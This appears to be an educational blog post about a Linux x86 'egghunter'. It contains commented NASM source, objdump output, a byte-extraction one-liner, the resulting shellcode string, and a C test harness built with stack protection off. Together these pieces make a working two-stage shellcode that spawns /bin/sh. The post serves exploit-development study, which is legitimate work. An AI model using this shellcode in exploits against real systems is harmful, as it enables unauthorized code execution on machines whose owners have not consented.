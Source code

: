 ## Egghunter Shellcode

A Linux x86 assembly language program that enables the user to perform a two stage operation from within a process. The first stage is the hunter, searching the memory of the compromised process for a specific marker, the egg, and upon finding the egg passing control to the shellcode payload. A working example of such code follows, this code is written to avoid NULL’s in order to be used as working shellcode. The main use of such code is in situations whereby the space within a process is at a premium and the payload is unable to be loaded in it’s entirety. Comments have been added for study purposes.
```nasm
; sigaction egghunter shellcode
; http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
 
global _start
section .text
_start:
pageinc:
    or   cx,0x0fff          ; page alignment and validation, 4095
addrinc:
    inc  ecx                ; increase address value
 
    ; Sigaction
    ; Function prototype:
    ;     int sigaction(int signum, const struct sigaction *act,
    ;          struct sigaction *oldact);
    ; Purpose:
    ;     Used to change an action by a process on receiving a specific
    ;     signal. Can handle any valid signal except for SIGKILL/SIGSTOP
    ;
    ;     Sigaction structure definition as per prototype:
    ;     struct sigaction {
    ;         void     (*sa_handler)(int);
    ;         void     (*sa_sigaction)(int, siginfo_t *, void *);
    ;         sigset_t   sa_mask;
    ;         int        sa_flags;
    ;         void     (*sa_restorer)(void);
    ;     };
    push 0x43               ; sigaction()
    pop  eax
    int  0x80               ; make the call
    cmp  al, 0xf2           ; test for EFAULT
    je   pageinc            ; EFAULT, access next page
    mov  eax,0x50905090     ; Marker code to find
    mov  edi,ecx            ; edi contains address to search
    scasd                   ; look for first marker
    jnz  addrinc            ; no marker found, next address
    scasd                   ; first marker found look for second
    jnz  addrinc            ; no marker found, next address
    jmp  edi                ; found markers jump to shellcode payload
 
    ; Marker bytes, enables hunter code to find the start of the
    ; shellcode payload, must be executable code to work correctly.
    nop                     ; 0x90
    push eax                ; 0x50
    nop
    push eax
    nop
    push eax
    nop
    push eax
 
    ; Execve
    ; Function prototype:
    ;     int execve(const char *fn, char *const argv[],
    ;         char *const envp[])
    ; Purpose:
    ;     to execute a program on a remote and/or compromised
    ;     system. There is no return from using execve therefore
    ;     an exit syscall is not required
    xor eax,eax             ; zero eax register
    xor edx,edx             ; zero edx register
    push edx                ; push null
    push 0x68732f6e         ; hs/n
    push 0x69622f2f         ; ib//
    mov ebx,esp             ; ebx contains address of //bin/sh
    push edx                ; push null
    push ebx                ; push address of //bin/sh
    mov ecx,esp             ; ecx pointer to //bin/sh
    push edx                ; push null
    mov edx,esp             ; edx contains pointer to null
    mov al,0xb              ; execve()
    int 0x80                ; make the call
```
Build the code:
```
$ nasm -felf32 -o egghunter.o egghunter.asm
$ ld -o egghunter egghunter.o
```
Check for nulls:
```
$ objdump -D egghunter -M intel
egghunt:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:   66 81 c9 ff 0f          or     cx,0xfff
08048065 <addrinc>:
 8048065:   41                      inc    ecx
 8048066:   6a 43                   push   0x43
 8048068:   58                      pop    eax
 8048069:   cd 80                   int    0x80
 804806b:   3c f2                   cmp    al,0xf2
 804806d:   74 f1                   je     8048060 <_start>
 804806f:   b8 90 50 90 50          mov    eax,0x50905090
 8048074:   89 cf                   mov    edi,ecx
 8048076:   af                      scas   eax,DWORD PTR es:[edi]
 8048077:   75 ec                   jne    8048065 <addrinc>
 8048079:   af                      scas   eax,DWORD PTR es:[edi]
 804807a:   75 e9                   jne    8048065 <addrinc>
 804807c:   ff e7                   jmp    edi
 804807e:   90                      nop
 804807f:   50                      push   eax
 8048080:   90                      nop
 8048081:   50                      push   eax
 8048082:   90                      nop
 8048083:   50                      push   eax
 8048084:   90                      nop
 8048085:   50                      push   eax
 8048086:   31 c0                   xor    eax,eax
 8048088:   31 d2                   xor    edx,edx
 804808a:   52                      push   edx
 804808b:   68 6e 2f 73 68          push   0x68732f6e
 8048090:   68 2f 2f 62 69          push   0x69622f2f
 8048095:   89 e3                   mov    ebx,esp
 8048097:   52                      push   edx
 8048098:   53                      push   ebx
 8048099:   89 e1                   mov    ecx,esp
 804809b:   52                      push   edx
 804809c:   89 e2                   mov    edx,esp
 804809e:   b0 0b                   mov    al,0xb
 80480a0:   cd 80                   int    0x80
```
Test above executable on localhost:
Open a terminal under working directory,

$ ./egghunter

The result of this will be a new /bin/sh

$

The test is to make sure things work rather than attempt to be an example of real world usage, as in reality the shellcode payload will not be as near to the hunter, otherwise there would most likely be no need for such a method. A more grounded example will be provided later in this post.

Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so
```bash
$ objdump -d ./egghunter | grep ‘[0-9a-f]:’ | grep -v ‘file’ | cut -f2 -d: | cut -f1-6 -d’ ‘ | tr -s ‘ ‘ | tr ‘t’ ‘ ‘ | sed ‘s/ $//g’ | sed ‘s/ /x/g’ | paste -d ” -s | sed ‘s/^/”/’ | sed ‘s/$/”/g’

“\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf
\x75\xec\xaf\x75\xe9\xff\xe7\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x31\xd2\x52\x68\x6e\x2f
\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80”
```
For a more complete analysis of what is going on within the shellcode and the choice of sigaction as a system call, I can do no better than to point you to section 3.1.3 sigaction(2), page 13 of the aformentioned paper. I would be doing a great injustice to this work to try and replicate it here in my own words. With that, a more complete and useful shellcode example is presented below.
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
  
/*
 * Marker code must be executable, currently:
 *   \x90 nop
 *   \x50 push eax
 */
#define MARKER "\x90\x50" 
  
char hunter[] = 
    "\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1"
    "\xb8"MARKER""MARKER"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";
char marker[] = MARKER; 
char shellcode[] = 
    "\x31\xc0\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69"
    "\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80";
  
int
main(void) 
{
    int i=0, nmarkers = 4, markerlen = sizeof(marker)-1;
    /* 
     * Setup area of memory for testing,
     * place marker and shellcode into area.
     */
    char *egg = malloc(128);
    memcpy(egg+(markerlen*nmarkers), shellcode, sizeof(shellcode)-1);
    do {
        memcpy(egg+i, marker, markerlen);
        i += markerlen;
    } while(i != (markerlen * nmarkers));
    /*
     * Run hunter to search for marker and jump to shellcode 
     */
    int (*ret)() = (int(*)())hunter;
    ret();
    free(egg);
    return 0;
}
```
In the above C source code the shellcode is split into more meaningful sections. This allows for flexibility, in that markers, memory ranges, etc. can all be changed, allowing for various testing scenarios and giving ample opportunity to segfault on whim! I have tried to make the source code dynamic with as few hardcoded values as possible.

Build the code:
```
$ gcc -fno-stack-protector -z execstack -o egghunter egghunter.c
```
The options for gcc are to disable stack protection and enable stack execution respectively. Without these options the code will cause a segfault.

Test above executable on a localhost:

$ ./egghunter

the system after a second, or two depending on your memory scheme, will return a new /bin/sh

$

The hunter shellcode above currently weighs in at 30 bytes. With further research the codebase could possibly be reduced, especially on architectures other than x86, but I strongly suspect that the robust nature of the code would be compromised, this is not to say that in certain scenarios a more optimal yet unstable solution would be required.

Note:
The code and the majority of my research into egghunter shellcode is based on the work ‘Safely Searching Process Virtual Address Space‘ by mmiller@hick.org. 
This is an excellent and informative paper, which for me was enlightening as to how much within the box my thinking has become. I am truly grateful for authors who take the time to share their knowledge, especially on such subjects.

Shell-storm database entry: http://shell-storm.org/shellcode/files/shellcode-850.php
